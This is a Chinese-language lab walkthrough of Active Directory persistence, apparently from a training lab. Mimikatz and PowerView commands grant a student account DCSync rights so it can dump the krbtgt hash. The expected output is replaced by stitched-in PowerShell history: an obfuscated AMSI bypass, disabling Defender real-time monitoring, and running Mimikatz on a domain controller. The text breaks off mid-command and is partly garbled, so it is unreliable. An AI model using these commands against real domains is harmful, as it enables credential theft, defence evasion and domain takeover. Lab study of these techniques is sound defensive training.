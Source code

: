 ```
没有任何返回

执行DCsync，获取krbtgt的账号信息，返回报错
```
PS C:\ad> . .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:dcorp\krbtgt
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)
```

证明当前账号是没有DCsync权限的。

来到有DA权限的shell

添加完全控制权限
```
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student366 -Rights All -Verbose
```
再把Dcsync权限赋予当前学生账号student366
```
Add-ObjectAcl -TargetDistinguishedName"dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student366 -Rights DCSync -Verbose
```

现在回到学生机shell，再次查看本账号是否有Dcsync权限
```
PS C:\ad> Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}


InheritedObjectType   : All
ObjectDN              : DC=dollarcorp,DC=moneycorp,DC=local
ObjectType            : All
IdentityReference     : dcorp\student366
IsInherited           : False
ActiveDirectoryRights : GenericAll
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : None
InheritanceType       : None
AccessControlType     : Allow
ObjectSID             : S-1-5-21-1874506631-3219952063-538504511
```

现在看到已经显示有GenericAll权限

执行Dcsync,导出krbtgt哈希（也可以是其他用户）
```
PS C:\ad> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\